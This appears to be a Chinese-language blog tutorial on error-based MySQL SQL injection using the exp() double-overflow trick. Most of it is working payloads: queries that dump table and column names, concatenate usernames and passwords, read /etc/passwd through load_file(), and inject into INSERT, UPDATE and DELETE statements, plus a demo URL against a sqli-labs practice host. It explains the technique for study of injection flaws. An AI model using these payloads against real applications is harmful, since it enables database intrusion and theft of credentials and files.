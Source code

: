 ```yaml
---
title: Mysql注入之EXP报错
date: 2019-03-08 08:38:41
tags:
 - 注入
---
```

作者在MySQL中发现了一个Double型数据溢出。如果你想了解利用溢出来注出数据，当我们拿到MySQL里的函数时，作者比较感兴趣的是其中的数学函数，它们也应该包含一些数据类型来保存数值。所以作者就跑去测试看哪些函数会出现溢出错误。然后作者发现，当传递一个大于709的值时，函数exp()就会引起一个溢出错误.

## 一、函数介绍

EXP(x) 返回值e(自然对数的底)的x次方

![](/images/sql-exp/exp1.png)

分析: E ≈ 2.7182818284 5904523536 0287471352 6624977572 4709369995

![](/images/sql-exp/exp2.png)

在MySQL中,exp与ln和log的功能相反,简单介绍下,就是log和ln都返回以e为底数的对数.

ln(15)=loge(15)≈ 2.7182818284

![](/images/sql-exp/exp3.png)

指数函数为对数函数的反函数,exp()即为以e为底的对数函数，如等式:

![](/images/sql-exp/exp4.png)

## 二、注入

当涉及到注入时，我们使用否定查询来造成“DOUBLE value is out of range”的错误。作者之前的博文提到的，将0按位取反就会返回“18446744073709551615”，再加上函数成功执行后返回0的缘故，我们将成功执行的函数取反就会得到最大的无符号BIGINT值.

![](/images/sql-exp/exp5.png)

我们通过子查询与按位求反,造成一个DOUBLE overflow error,并借由此注出数据.
结合:
exp(~(select*from(select user())x));
最新版本mysql数据库无法实现报错;

![](/images/sql-exp/exp6.png)

5.5.42版本数据库可以实现报错;

![](/images/sql-exp/exp7.png)

## 三、注入数据

既然通过以上姿势可以报错显示部分信息,那么下面我们就可以爆出表、字段数据等;

### 3.1.爆表

```sql
SQL:
select exp(~(select*from(select table_name from information_schema.tables where table_schema='security' limit 0,1)x));
```

![](/images/sql-exp/exp8.png)

### 3.2.爆字段

```sql
SQL:
select exp(~(select*from(select column_name from information_schema.columns where table_name='users' limit 0,1)x));
```

![](/images/sql-exp/exp9.png)

### 3.3.爆数据

```sql
SQL:
select exp(~ (select*from(select concat_ws(':',id, username, password) from users limit 0,1)x));
```

![](/images/sql-exp/exp10.png)

## 四、Dump表、字段数据

这个查询可以从当前的上下文中dump出所有的tables与columns.我们也可以dump出所有的数据库,但由于我们是通过一个错误进行提取,它会返回很少的结果.

```sql
SQL:
select exp(~(select*from(select(concat(@:=0,(select count(*)from`information_schema`.columns where
table_schema=database()and@:=concat(@,0xa,table_schema,0x3a3a,table_name,0x3a3a,column_name)),@)))x))
```

![](/images/sql-exp/exp11.png)

DEMO:

```sql
URL:
http://sqli-labs.me:8888/Less-5/?id=1' or exp(~(select*from(select(concat(@:=0,(select count(*)from
information_schema.columns where
table_schema='security'and@:=concat(@,0xa,table_schema,0x3a3a,table_name,0x3a3a,column_name)),@)))x))--+
```

![](/images/sql-exp/exp12.png)

## 五、文件读取

你可以通过load_file()函数来读取文件,但作者发现有13行的限制,该语句也可以在BIGINT overflow injections中使用.
select exp(~(select*from(select load_file('/etc/passwd'))a));
数据库版本：5.5.42

![](/images/sql-exp/exp13.png)

数据库版本：5.5.58 已经无法实现报错;

![](/images/sql-exp/exp14.png)

## 六、插入、更新、删除

与插入数据格式一致

```sql
SQL:
mysql> insert into users (id, username, password) values (2, '' ^ exp(~(select*from(select user())x)), 'test');
```

![](/images/sql-exp/exp15.png)

```sql
SQL:
mysql> insert into users (id, username, password) values (2, '' | exp(~(select*from(select(concat(@:=0,(select
count(*)from`information_schema`.columns where
table_schema=database()and@:=concat(@,0xa,table_schema,0x3a3a,table_name,0x3a3a,column_name)),@)))x)), 'Eyre');
```

![](/images/sql-exp/exp16.png)

```sql
update:
mysql> update users set password='test' ^ exp(~(select*from(select user())x)) where id=4;
```

![](/images/sql-exp/exp17.png)

```sql
delete:
mysql> delete from users where id='1' | exp(~(select*from(select user())x));
```

![](/images/sql-exp/exp18.png)

### 参考

```sql
https://osandamalith.com/2015/07/15/error-based-sql-injection-using-exp/
https://packetstormsecurity.com/files/133256/MySQL-Error-Based-SQL-Injection-Using-EXP.html
```

